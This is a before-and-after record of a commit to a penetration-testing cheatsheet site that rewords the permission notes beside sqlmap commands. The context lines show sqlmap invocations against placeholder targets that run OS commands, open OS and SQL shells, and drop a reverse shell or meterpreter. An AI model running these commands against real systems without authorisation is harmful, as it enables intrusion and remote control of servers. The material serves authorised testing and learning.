

Before and after one commit to tymyrddin/cheatsheets, a Sphinx documentation site: the page built from source/docs/databases/sqlmap-cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 731 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
sqlmap shells

```diff
--- a/source/docs/databases/sqlmap-cheatsheet.md
+++ b/source/docs/databases/sqlmap-cheatsheet.md
@@ -44,11 +44,11 @@
 
 ## Shell
 
-Execute a command (requires permission):
+Execute a command (requires permissions):
 
     # sqlmap -u "<target>/<pagename>.php?id=1" --os-cmd whoami
 
-Simple shell (will not work when not having the permissions:
+Simple shell (requires permissions or a file inclusion vulnerability in any of the applications on the webserver):
 
     # sqlmap -u "<target>/<pagename>.php?id=1" --os-shell
 
@@ -56,7 +56,7 @@ SQL shell:
 
     # sqlmap -u "<target>/<pagename>.php?id=1" --sql-shell
 
-Dropping a reverse-shell/meterpreter (requires permissions):
+Dropping a reverse-shell/meterpreter (requires permissions or a file inclusion vulnerability in any of the applications on the webserver):
 
     # sqlmap -u "<target>/<pagename>.php?id=1" --os-pwn
 
```
